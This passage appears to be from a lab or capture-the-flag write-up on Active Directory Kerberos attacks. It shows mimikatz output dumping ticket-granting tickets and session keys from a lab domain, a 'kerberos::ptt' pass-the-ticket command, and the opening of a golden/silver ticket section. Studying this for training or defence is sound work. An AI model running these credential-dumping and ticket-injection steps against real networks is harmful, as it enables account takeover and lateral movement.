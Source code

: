 ```
         * Password : 4b b7 68 03 2c 8d ee f8 57 71 34 0c 66 1b 50 d7 05 62 88 2d e7 dc 63 3d 35 04 b5 16 f7 c7 6d 5f a0 ea b9 36 46 57 ad be 33 5f da 34 ca c6 2c a7 ac 0a b4 ea 24 3f c1 ba 5e ed 23 f5 b1 f1 b8 50 2a 95 c2 39 8e 2b ec 3f e1 c9 e7 07 97 97 1f 69 3b 42 b6 a1 ce e8 09 32 2e 11 6b a5 3b 6b 63 14 26 d9 10 a1 be ef bc 4c 91 6d 59 ea e2 e1 04 fc bf 73 a0 0c 2d b0 db 16 4c 1b 18 4e 3a 52 7e 49 0c 98 a3 32 aa a5 3b 3f d9 0f 97 3c 69 03 31 0d 2b 2d 7d a6 09 87 ab d5 01 8d 00 d0 01 5e da 99 88 2a 88 ef 03 f1 69 f8 c6 6e 9d 6f 19 69 df 46 d4 5a a8 e5 a9 26 4e 69 66 13 86 14 de f0 32 66 90 fc e2 b3 25 9a 69 89 6e a1 02 88 66 d2 98 80 cb 39 27 25 46 26 a6 08 29 f3 92 83 75 e0 43 ec 23 7a 0b 78 b1 d2 d6 c4 03 1c b9 74 3f 23 5d 95

        Group 0 - Ticket Granting Service

        Group 1 - Client Ticket ?

        Group 2 - Ticket Granting Ticket

   Group 2 - Ticket Granting Ticket
         [00000000]
           Start/End/MaxRenew: 8/20/2022 10:05:33 AM ; 8/20/2022 8:05:33 PM ; 8/27/2022 10:05:33 AM
           Service Name (02) : krbtgt ; CONTROLLER.LOCAL ; @ CONTROLLER.LOCAL
           Target Name  (--) : @ CONTROLLER.LOCAL
           Client Name  (01) : CONTROLLER-1$ ; @ CONTROLLER.LOCAL ( $$Delegation Ticket$$ )
           Flags 60a10000    : name_canonicalize ; pre_authent ; renewable ; forwarded ; forwardable ;
           Session Key       : 0x00000012 - aes256_hmac
             bb4c0b714ae6c612584bb477c9fb90fed3cc6fa5e871bff3d2e819eba99dfdf1
           Ticket            : 0x00000012 - aes256_hmac       ; kvno = 2        [...]
           * Saved to file [0;3e7]-2-0-60a10000-CONTROLLER-1$@krbtgt-CONTROLLER.LOCAL.kirbi !
         [00000001]
           Start/End/MaxRenew: 8/20/2022 10:05:33 AM ; 8/20/2022 8:05:33 PM ; 8/27/2022 10:05:33 AM
           Service Name (02) : krbtgt ; CONTROLLER.LOCAL ; @ CONTROLLER.LOCAL
           Target Name  (02) : krbtgt ; CONTROLLER.LOCAL ; @ CONTROLLER.LOCAL
           Client Name  (01) : CONTROLLER-1$ ; @ CONTROLLER.LOCAL ( CONTROLLER.LOCAL )
           Flags 40e10000    : name_canonicalize ; pre_authent ; initial ; renewable ; forwardable ;
           Session Key       : 0x00000012 - aes256_hmac
             6640835d436410ec68458fc63e21d7deca154569886409891b1af864a65fc2a0
           Ticket            : 0x00000012 - aes256_hmac       ; kvno = 2        [...]
           * Saved to file [0;3e7]-2-1-40e10000-CONTROLLER-1$@krbtgt-CONTROLLER.LOCAL.kirbi !
mimikatz # kerberos::ptt [0;1ff6a2]-2-0-40e10000-Administrator@krbtgt-CONTROLLER.LOCAL.kirbi

* File: '[0;1ff6a2]-2-0-40e10000-Administrator@krbtgt-CONTROLLER.LOCAL.kirbi': OK
```
I understand how a pass the ticket attack works *No answer needed*

![](https://img-blog.csdn.net/20150912220534137)

### Golden/Silver Ticket Attacks w/ mimikatz 

Mimikatz is a very popular and powerful post-exploitation tool most commonly used for dumping user credentials inside of an active directory network however well be using mimikatz in order to create a silver ticket.
